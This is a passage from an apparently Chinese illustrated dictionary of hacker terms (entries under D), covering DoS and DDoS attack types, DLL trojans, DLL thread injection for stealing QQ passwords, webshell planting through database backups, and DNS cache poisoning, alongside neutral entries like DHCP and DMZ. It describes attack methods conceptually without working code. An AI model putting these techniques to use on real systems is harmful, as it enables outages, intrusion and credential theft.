由于 DB_OWNER 对许多系统内置的存储过程没有访问权限，所以用它来作为访问数据库的连接相对来说比较安全。现在很多程序员在写需要连接到数据库的程序时，都尽量使用 DB_OWNER 角色进行连接，如图 D-1 所示。而当进行 SQL 注入的时候，如果遇到这种情况，难度就会增大许多。因为 DB_OWNER 的权限受限，所以不能够直接执行系统命令，访问注册表也必须先将数据导入表后再导出。

一般对于 DB_OWNER 进行入侵的常用方法有两种：一是在数据库中插入一句话木马，再利用差异备份或 LOG 备份进行导出，得到 WEBSHELL。二是利用差异备份或 LOG 备份导出 BAT 文件或 HTA 文件，进行提权或其他操作。



图 D-1

## DOS/DoS｜操作系统及其相关，攻击方法与行为

- 1. DOS 全称为 Disk Operation System，即磁盘操作系统，是一类操作系统的名称。它一般包括 Shell（command.com）、IO 接口（io.sys）这两个部分。Shell 是 DOS 的外壳，负责将用户输入的命令翻译成操作系统能够理解的语言。
  - 一般常见的 DOS 包括：MS-DOS、PC-DOS、FreeDOS、ROM-DOS 等。MS-DOS 也是最常用的 DOS，现在 WIN2K 或 XP 下的 CMD 就是 DOS 的延续。
- 2. DoS 全称为 Denial of Service，即拒绝服务攻击，是一种悠久而常见的攻击形式。严格来说，拒绝服务攻击并不是某一种具体的攻击方式，而是攻击所表现出来的结果，最终使得目标系统因遭受某种程度的破坏而不能继续提供正常的服务，甚至导致物理上的瘫痪或崩溃。

具体的操作方法可以是多种多样的，既可以是单一的手段，也可以是多种方式的组合利用。其结果都是一样的，导致合法的用户无法访问所需信息。

### 第一种是使一个系统或网络瘫痪

攻击者只需要发送少量的非法数据就可以使得系统死机或重新启动，造成无法访问，也没有人能够使用资源。在大多数情况下，需要管理员进行干预，对系统进行关闭或重新启动。这种攻击是最具破坏力的，因为一个小动作就可以造成对整个系统的影响，而恢复却需要人工的干预。

### 第二种攻击是向系统或网络发送大量信息，使系统或网络不能响应

例如，如果一个系统无法在一分钟之内处理 100 个数据包，而攻击者却每分钟向它发送 1000 个数据包！这时，当合法用户要连接系统时，他将得不到访问权，因为系统资源已经不足。

进行这种攻击时，攻击者必须连续地向系统发送数据包。当攻击者不再向系统发送数据包时，攻击停止，系统也就恢复正常了。利用此攻击方法需要耗费攻击者很多精力，因为他必须不断地发送数据。

虽然有时这种攻击会使系统瘫痪，但大多数情况下，恢复系统只需要少量人为干预。

这两种攻击既可以在本地网络上进行，也可以通过互联网络进行。

## 拒绝服务常见攻击类型

- 1. **Ping of Death**

俗称“死亡之 Ping”。根据 TCP/IP 的规范，一个包的长度最大为 65536 字节。当一个主机收到了长度大于 65536 字节的包时，就是受到了 Ping of Death 攻击，该攻击会造成主机宕机。

尽管一个包的长度不能超过 65536 字节，但是一个包分成的多个片段的叠加却能做到。

- 2. **Teardrop**

俗称“泪滴攻击”。IP 数据包在网络传递时，可以分成更小的片段。攻击者可以通过发送两段（或者更多）数据包来实现 Teardrop 攻击，比如发送的第一段数据包偏移量为 0，长度为 N，那么发送的第二段数据包偏移量就小于 N，以此类推。

为了合并这些数据段，TCP/IP 堆栈会分配超乎寻常的巨大资源，从而造成系统资源缺乏，甚至机器重启。

- 3. **Land**

攻击者将一个包的源地址和目的地址都设置为目标主机地址，然后将该包通过 IP 欺骗的方式发送给被攻击主机。这种包可以造成被攻击主机因试图与自己建立连接而陷入死循环，从而很大程度地降低系统性能。

- 4. **Smurf**

该攻击向一个子网的广播地址发送一个带有特定请求（如 ICMP 回应请求）的包，并且将源地址伪装成想要攻击的主机地址。子网上所有主机都回应广播包请求而向被攻击主机发送数据包，使该主机受到攻击。

- 5. **SYN flood**

该攻击以多个随机的源主机地址向目的主机发送 SYN 包，而在收到目的主机的 SYN ACK 后并不回应。这样，目的主机就为这些源主机建立了大量连接队列，而且由于没有收到 ACK 就一直维护着这些队列，造成资源大量消耗而不能向正常请求提供服务。

- 6. **Win Nuke**

是以拒绝目的主机服务为目标的网络层次攻击。攻击者向受害主机的 139 端口（即 NetBIOS）发送大量数据，由于这些数据并不是目的主机所需要的，所以会导致目的主机死机。

- 7. **RPC Locator**

攻击者通过 Telnet 连接到受害者机器的 135 端口上发送数据，导致 CPU 资源完全耗尽。依照程序设置和是否有其他程序运行，这种攻击可以使受害计算机运行缓慢或者停止响应。

无论哪种情况，要使计算机恢复正常运行速度都必须重新启动。

## DDOS 分布式拒绝服务攻击｜攻击方法与行为

DDOS 全称为 Distributed Denial of Service，中文翻译为“分布式拒绝服务攻击”，俗称“洪水攻击”。DDoS 攻击手段是在传统 DoS 攻击基础之上产生的一类攻击方式。“分布”二字意味着攻击端是分散且大量的，这也是 DDOS 攻击的典型特点。

说简单点，DDOS 的原理就是让大量主机同时统一对单一目标进行 DoS。用形象的比喻来说，DoS 可以称之为单挑，而 DDOS 就是群殴，而且是一群打一个。就算这台强力主机能够在短时间挺过去，但连续不断而长久的 DDOS 攻击也能慢慢消耗掉其资源。

攻击者先给大量主机种植可控制的 DDoS 程序，这些被植入程序的主机称为傀儡机，由攻击者统一通过广播命令进行控制。DDoS 程序一般都通过网页木马形式植入，许多网民在上网时无意浏览了某些页面后就成了攻击者的傀儡机，但其浑然不觉。大量傀儡机也就组成了所谓的僵尸网络。



图 D-2

一个比较完善的 DDoS 攻击体系分成四大部分，如图 D-2 所示，包括：攻击者所在机、控制傀儡机、傀儡机及受害者。

先来看一下最重要的“控制傀儡机”和“傀儡机”：它们分别用作控制和实际发起攻击。请注意“控制傀儡机”与“攻击机”的区别：对受害者来说，DDOS 的实际攻击包是从“攻击机”上发出的，“控制傀儡机”只发布命令而不参与实际攻击。对“控制傀儡机”和“傀儡机”，攻击者都有控制权或者部分控制权，并把相应的 DDOS 程序上传到这些平台上。这些程序与正常程序一样运行并等待来自攻击者的指令，通常还会利用各种手段隐藏自己而不被别人发现。

在平时，这些傀儡机器并没有什么异常，只有攻击者连接到它们进行控制并发出指令时，“攻击傀儡机”才发起攻击。

通过“控制傀儡机”控制“傀儡机”的优点在于可以很好地隐藏自己，加大追查难度。攻击者使用的“傀儡机”越多，他实际上提供给受害者的分析数据就越多。所以，通过“控制傀儡机”操控所有“傀儡机”不失为一种安全方式。

当前主要有三种流行的 DDoS 攻击：

### 1. SYN/ACK Flood 攻击

这种攻击方法是 DoS 中 SYN/ACK Flood 攻击的延续。基本原理与其一样，也是通过向受害主机发送大量伪造源 IP 和源端口的 SYN 或 ACK 包，导致主机缓存资源被耗尽或忙于发送应答包而造成拒绝服务。

少量这种攻击会导致主机服务器无法访问，但却可以 Ping 通，在服务器上用 Netstat -na 命令会观察到存在大量 SYN_RECEIVED 状态。

大量这种攻击会导致 Ping 和 TCP/IP 栈失效，并会出现系统凝固现象，即不响应键盘和鼠标。一般普通防火墙无法抵御此种攻击。

此攻击优点在于追踪起来比较困难，因为源都是伪造的；缺点是实施起来有一定难度，需要高带宽僵尸主机支持。

### 2. TCP 全连接攻击

这种攻击是为了绕过常规防火墙检查而设计的。一般情况下，常规防火墙大多具备过滤 Teardrop、Land 等 DoS 攻击能力，但对于正常 TCP 连接是放过的。不过很多网络服务程序（如 IIS、Apache 等 Web 服务器）能接受的 TCP 连接数有限，一旦有大量 TCP 连接，即便是正常的，也会导致网站访问非常缓慢，甚至无法访问。

TCP 全连接攻击就是通过许多僵尸主机不断地与受害服务器建立大量 TCP 连接，直到服务器内存等资源被耗尽，从而造成拒绝服务。

这种攻击特点是可绕过一般防火墙防护，缺点是需要找到大量僵尸主机，并且由于僵尸主机 IP 是暴露的，因此容易被追踪。

### 3. 利用脚本攻击

这种攻击主要针对存在 ASP、JSP、PHP、CGI 等脚本程序，并调用 MSSQL Server、MySQL Server、Oracle 等数据库的网站系统。特征是和服务器建立正常 TCP 连接，并不断向脚本程序提交数据库查询、列表等大量耗费数据库资源的调用，属于典型“以小博大”的攻击方法。

一般来说，提交一个 GET 或 POST 指令对客户端的耗费和带宽占用几乎可以忽略不计，但如果这个请求是进行数据库查询，服务器就有可能要从上万条记录中查出某个记录，这种处理过程对资源耗费很大。

常见数据库服务器很少能支持数百个查询指令同时执行，而这对客户端来说却是轻而易举的。因此攻击者只需通过 Proxy 代理向主机服务器大量递交查询指令，数分钟后就会把服务器资源消耗掉而导致拒绝服务。

现象就是网站慢如蜗牛、ASP 程序失效、PHP 连接数据库失败、数据库主程序 CPU 占用率偏高。

这种攻击特点是可以完全绕过普通防火墙防护，轻松找一些 Proxy 代理就可实施攻击；缺点是对付只有静态页面的网站效果会大打折扣，并且有些 Proxy 会暴露攻击者 IP 地址。而 CC 是此类攻击最常见的利用工具。

通常被 DDoS 的服务器具有以下症状：

- 被攻击主机上有大量等待的 TCP 连接；
- 网络中充斥着大量无用数据包，源地址为假；
- 受害主机无法正常和外界通信，CPU 保持高使用率；
- 严重时会造成系统死机。

## Debug 调试技术

DEBUG 从字面上理解意为“处理虫子”（详情请见 BUG）。DOS 中的 Debug 命令是专门为了系统可以进行跟踪程序运行、检查系统数据而设置的。它是在字符界面下以单字符命令方式工作，要很好地使用它必须具备一定的汇编程序设计和硬件基本知识。当然，它为汇编语言程序员提供了有效调试手段，其功能包括：

- 直接输入、更改、跟踪、运行汇编程序
- 观察操作系统内容
- 查看 ROM BIOS 内容
- 观察、更改 RAM 内部设置值
- 以扇区或文件方式读写软盘数据

## Deception 黑客工具

Deception 是一款功能不错的捆绑工具和远程秘密下载工具，支持将任何文件捆绑到可执行文件上，可以在指定时间内进行远程下载，并支持从 Temp/System/Win 目录下运行，有正常运行及秘密运行两种方式。

## Delphi 程序语言与开发

Delphi 是 Borland 公司研制的新一代可视化编程环境，是一种方便快捷的 Windows 应用程序开发工具。其采用了面向对象编程语言 Object Pascal 和基于部件的开发结构框架。Delphi 也可以在 LINUX 平台上开发应用，其在 LINUX 上的对应产品是 Kylix。

Delphi 提供了 500 多个可供使用的部件，而且开发人员也可以根据自己的需要修改部件，或用 Delphi 本身编写自己的部件。像我们所熟知的 Domain 与啊D注入工具就是由 Delphi 所编制的。

## 黑客术语图文辞典 → DMZ

Delphi 的主要特点如下：

- 直接编译生成可执行代码，编译速度快。
- 支持将存取规则分别交给客户机或服务器进行处理，而且允许开发人员建立一个简单部件或部件集合，封装起所有规则；并独立于服务器和客户机，所有数据转移通过这些部件来完成。
- 提供了许多快速方便的开发方法，使开发人员能用尽可能少的重复性工作完成各种不同应用。
- 具有可重用性和可扩展性。
- 具有强大的数据存取功能。
- 拥有强大的网络开发能力，能够快速开发 B/S 应用。
- Delphi 使用独特的 VCL 类库，使得编写出的程序显得条理清晰。

## DELUSER｜应用程序

在 Windows NT/2000/XP 系统中，删除系统内建用户（如 Administrator 或 Guest）的一个工具。

## DEMO｜特定名称

DEMO 是 Demonstration 的缩写，即实地示范、实物宣传，一般用于表示软件版本，DEMO 即为演示版。它一般分为两种：一种是功能齐全但有使用时间限制的软件，大多为 30 天。30 天过后就会要求你通过购买才能继续使用该软件；另一种是在正式版出来之前提供的体验版，这种版本没有时间限制，但其功能不完整。这种方式最常用于游戏正式版发售之前，开发商为了宣传和测试而放出不完全版本，让用户事先体验到游戏内容，并反馈发现的问题。

## DMZ｜黑客技术基础

DMZ 是英文“Demilitarized Zone”的缩写，中文名称为“隔离区”，也称“非军事化区”或“非武装地带”。它是为了解决安装防火墙后外部网络不能访问内部网络服务器的问题而设立的，这个区域位于内部网络和外部网络之间，其网络结构如图 D-3 所示。

正如图 D-3 所示，DMZ 相当于从外部网络进入内部网络的一个缓冲区。DMZ 区域提供了一个区域放置公共服务器，这些服务器专门为外部访问提供一些服务，同时核心数据都保存在内部网络服务器里。这样既能让外部访问这一区域里的服务器，也能够有效保护内部网络里的主机。在 DMZ 区域中通常包括堡垒主机及所有公共服务器。

在这样的结构里，攻击者必须通过三个独立区域（外部防火墙、内部防火墙和堡垒主机）才能到达局域网，攻击难度大大加强。虽然这样使得内部网络安全性加强了，但投资成本也是最高的。



图 D-3

## DEP 保护系统｜安全技术

DEP（Data Execution Prevention，数据执行保护）是 Windows XP SP2 中的一种安全功能，可帮助保护计算机免受病毒和其他安全威胁的破坏。与防火墙或防病毒程序不同，DEP 并不会防止有害程序安装在计算机中，它只是用来防止病毒和其他安全威胁在计算机中任何受保护的内存位置运行有害代码。

DEP 使用兼容的微处理器来将某些常用内存位置标记为“不可执行”。如果某个程序尝试从不可执行位置运行代码，Windows 将自动关闭该程序。这样做的好处是可以在运行已安装程序时帮助防止蠕虫、病毒和其他安全威胁攻击计算机。

默认设置下，DEP 对于计算机上的所有程序都处于打开状态。只有 Windows XP SP2 或 Windows Server 2003 SP1 及更高版本操作系统才能使用 DEP，而且处理器还必须与数据执行保护技术兼容，因为 DEP 是通过处理器的 NX（No eXecute）功能来实现的。

## DHCP（服务器）｜黑客技术基础

DHCP（Dynamic Host Configuration Protocol，动态主机分配协议）可以说是 BOOTP 协议的增强版本，它分为两个部分：一个是服务器端，另一个是客户端。

所有 IP 网络设定数据都由 DHCP 服务器集中管理，并负责处理客户端的 DHCP 要求；而客户端则会使用从服务器分配下来的 IP 环境数据。与 BOOTP 比较而言，DHCP 通过“租约”的概念，有效且动态地分配客户端的 TCP/IP 设定。下面介绍一下 DHCP 的分配形式：

首先，必须至少有一台 DHCP 服务器工作在网络上面，它会监听网络的 DHCP 请求，并与客户端协商 TCP/IP 的设定环境。它提供两种 IP 定位方式：

- 自动分配：一旦 DHCP 客户端第一次成功地从 DHCP 服务器端租用到 IP 地址之后，就永远使用这个地址。
- 动态分配：当 DHCP 第一次从 DHCP 服务器端租用到 IP 地址之后，并非永久使用该地址，只要租约到期，客户端就得释放（release）这个 IP 地址，以给其他工作站使用。



DHCP 服务器指的是控制一段 IP 地址范围的服务器，客户机登录服务器时就可以自动获得服务器分配的 IP 地址和子网掩码。DHCP 服务器必须是一台安装有 Windows 2000 Server/Advanced Server 或类似系统的计算机。担任 DHCP 服务器的计算机需要安装 TCP/IP 协议，并为其设置静态 IP 地址、子网掩码、默认网关等内容。而客户端只需要在“本地连接”上按鼠标右键，然后依次选择“属性”－“INTERNET 协议”－“属性”，就可以进行动态 IP 设置，从而使用 DHCP 协议，如图 D-4 所示。

## Dig 命令

Dig（域信息搜索器）命令是一个 LINUX 系统下用于询问 DNS 域名服务器的工具。它执行 DNS 搜索，显示从受请求的域名服务器返回的答复。多数 DNS 管理员利用 dig 作为 DNS 问题的故障诊断，因为它灵活性好、易用、输出清晰。虽然通常情况下 dig 使用命令行参数，但它也可以按批处理模式从文件读取搜索请求。当未指定任何命令行参数或选项时，dig 将对“.”（根）执行 NS 查询。

## DISCUZ! 脚本

Discuz! 是优秀的国产通用社区论坛软件系统，也是国内使用最多的论坛系统之一。Discuz! 的基础架构采用流行的 Web 编程组合 PHP+MySQL 实现，有着不俗的安全性与口碑。同类型论坛还有 PHPBB。

## DLL

DLL 是 Dynamic Linkable Library 的缩写，即动态链接库文件。动态链接库是作为共享函数库的可执行文件，动态链接提供了一种方法，使进程可以调用不属于其可执行代码的函数。函数的可执行代码位于一个 DLL 中，该 DLL 包含一个或多个已被编译、链接并与使用它们的进程分开存储的函数。我们在 Windows 系统中能看到许多后缀名为 dll 的文件，这些就是动态链接库。下面来了解一下动态链接库的产生及应用历史吧：在 DOS 系统大行其道的日子里，写程序是一件繁琐的事情……

代码都是独立的，有时候为了实现一个功能，就要为此写很多代码。后来程序员们把很多常用代码集合（通用代码）放进一个独立文件里，并把这个文件称为“库”（Library）。写程序时，把这个库文件加入编译器，就能使用这个库包含的所有功能，而不必自己再去写一大堆代码，这个技术被称为“静态链接”（Static Link）。

在应用了一段时间后，问题又出现了！比如一个程序只想用到某个库文件中包含的某个图形效果，但程序员不得不把这个库文件携带的所有图形效果都加入程序，使程序大小无端增大。

这个难题在 Windows 系统出现后得到了解决。Windows 系统使用一种新的链接技术，这就是“动态链接”。动态链接本身和静态链接没什么区别，也是把通用代码写进一些独立文件里，但是在编译方面，微软并没有采取把库文件加进程序的方法，而是把库文件做成已经编译好的程序文件，设置了交换数据接口。

程序员写程序时，一旦要使用某个库文件的一个功能函数，系统就把这个库文件调入内存，连接上这个程序占有的任务进程，然后执行程序要用的功能函数，并把结果返回给程序显示出来。完成需要的功能后，这个 DLL 停止运行，整个调用过程结束。

微软让这些库文件能被多个程序调用，实现了比较完美的共享。程序员无论要写什么程序，只要在代码里加入对相关 DLL 的调用声明就能使用它的全部功能。

DLL 技术的诞生，使编写程序变成一件简单的事情。Windows 为我们提供了几千个函数接口，足以满足大多数程序员的需要。而且，Windows 系统自身就是由几千个 DLL 文件组成，这些 DLL 相互扶持，组成了强大的 Windows 系统。

而在木马领域，DLL 也有强大应用，DLL 木马就是一个典型例子。

## DLL 木马｜黑客技术基础：病毒与恶意软件

DLL 木马本质是一个 DLL 文件，只不过其中有代码可以实现木马功能。在 Windows 中有三种可执行程序类型，分别是 EXE、DLL 和 COM，EXE 木马能实现的功能，DLL 木马一样可以实现，只不过实现过程更加复杂。

与传统木马不同，DLL 木马运行时是直接挂在调用它的程序进程里的，并不会另外产生进程，所以相对于传统 EXE 木马来说，它很难被查到。

从本质上来说，DLL 的代码和其他程序几乎没什么两样，仅仅是接口和启动模式不同而已。只要改动一下代码入口，DLL 就变成一个独立程序了。当然，DLL 文件是没有程序逻辑的，你可以把 DLL 看作是缺少了 main 入口的 EXE，其所带的各个功能函数可以看作一个程序的几个函数模块。

启动 DLL 木马需要用到 EXE 文件，它被称为 Loader（装载者），如果没有

## 黑客术语图文辞典 → DLL 线程插入

Loader，DLL 木马便无法发挥作用。因此，一个算得上成熟的 DLL 木马会想办法保护它的 Loader 不会那么容易被毁灭。

Loader 可以是多种多样的，Windows 的 rundll32.exe 也被一些 DLL 木马用来做 Loader，这种木马一般不带动态嵌入技术，它直接挂着 rundll32 进程运行。按照 `rundll32.exe [DLL名],[函数][参数]` 的方式就可以调用 API 去引用这个 DLL 的启动函数，从而激发木马模块开始运行，即使你杀掉 rundll32，木马本体还是存在的。一个最常见的例子就是“3721 中文实名”这个插件，虽然它不是木马。

有一些更复杂的 DLL 木马通过 svchost.exe 来启动，一般很少见，但是这种木马的隐藏性还不错，而且 Loader 有保障。这种 DLL 木马必须写成 NT-Service，入口函数是 ServiceMain。

## DLL 线程插入｜程序语言与开发

DLL 线程插入是指强行将不属于某程序的 DLL 加载进该程序内存私有空间的行为，也是许多盗号木马与 DLL 木马所应用的主要技术，它们许多时候会插进一些系统进程，从而获得更好的穿墙效果。

Windows 中，每个进程都有自己的私有内存空间，别的进程是不允许对这个私人领地进行操作的。但是实际上仍然可以利用种种方法进入并操作进程的私有内存，这就是线程插入，它是将自己的代码插入正在运行的进程中的技术。

动态嵌入有很多种，最常见的是钩子、API 以及远程线程技术。现在的大多数 DLL 木马都采用远程线程技术把自己挂在一个正常系统进程中。一旦木马的 DLL 插入了另一个进程的地址空间后，就可以对另一个进程为所欲为，比如盗取 QQ 的密码。

普通情况下，一个应用程序所接收的键盘、鼠标操作，别的应用程序是无权“过问”的。可盗号木马是怎么偷偷记录下我的密码的呢？

木马首先将 1 个 DLL 文件插入到 QQ 的进程中，并成为 QQ 进程中的一个线程，这样该木马 DLL 就赫然成为了 QQ 的一部分！然后在用户输入密码时，因为此时木马 DLL 已经进入 QQ 进程内部，所以也就能够接收到用户传递给 QQ 的密码了。

线程插入最常用的技术就是远程线程技术，其思路就是通过在另一个进程中创建远程线程（`RemoteThread`）的方法进入那个进程的内存地址空间。在 DLL 木马的范畴里，这个技术也叫做“注入”，当载体在那个被注入的进程里创建了远程线程并命令它加载 DLL 时，木马就挂上去并执行了。

如果没有新进程产生，要想让木马停止运行，只有让挂接这个木马 DLL 的进程完全退出运行。

## DSL——黑客技术基础

DSL（Digital Subscriber Line，数字用户线）是对在本地电话网线路上所提供的数字数据传输的一整套技术的总称。一般来说，根据数字用户线的具体实施技术和服务水平的不同，其下载速率可从 128kbit/秒到 24000kbit/秒不等。

- 上传速率低于下载速率者称为异步数字用户线（Asymmetric Digital Subscriber Line，简称 ADSL）。
- 上传速率等于下载速率者称为同步数字用户线（Symmetric Digital Subscriber Line，简称 SDSL）。

## DNS——黑客技术基础

DNS 是域名系统（Domain Name System）的缩写，该系统用于命名组织到域层次结构中的计算机和网络服务。在 Internet 上，域名与 IP 地址之间是一一对应的，域名虽然便于人们记忆，但机器之间只能互相认识 IP 地址，它们之间的转换工作称为域名解析。域名解析需要由专门的域名解析服务器来完成，DNS 就是进行域名解析的服务器。

DNS 命名用于 Internet 等 TCP/IP 网络中，通过用户的名称查找计算机和服务。当用户在应用程序中输入 DNS 名称时，DNS 服务可以将此名称解析为与之相关的其他信息，如 IP 地址。

你输入网站域名（比如 www.nohack.cn）进行访问时，其实是通过域名解析找到相对应的 IP 地址，因为域名的最终指向是 IP。

## DNS 欺骗——攻击方法与行为

DNS 欺骗与 IP 欺骗一样，也是一门高级攻击技术。当我们输入一个域名时，计算机会自动将这个域名发送给 DNS 服务器，DNS 服务器会自动将其解析成 IP 作为 DNS 响应包返回来，而 DNS 欺骗的核心思想在于伪造指定的 DNS 响应包，也就是更改被攻击计算机所解析的域名。例如，当目标主机访问 www.google.com 时，可以通过 DNS 欺骗将其转到 www.eviloctal.com 的页面。

一般来说，DNS 欺骗有以下几种方法：

- DNS 高速缓冲存储器投毒（DNS Cache Poisoning）

可以想象，DNS 服务器不可能将所有现存的域名或 IP 地址存储在本身的存储空间里，这就是为什么 DNS 服务器有一个高速缓冲存储器（Cache），它使得服务器可以存储 DNS 记录一段时间。

事实上，一台 DNS 服务器只会记录本身所属域中的授权主机，如果它想要知道其他的、在自身域以外主机的信息，就必须向信息持有者（另一台 DNS 服务器）发送请求。同时，为了不用每次都发送请求，这台 DNS 服务器会将另一台 DNS 服务器返回的信息又记录下来。

下面来看看攻击者是怎么麻痹 DNS 的缓存的：

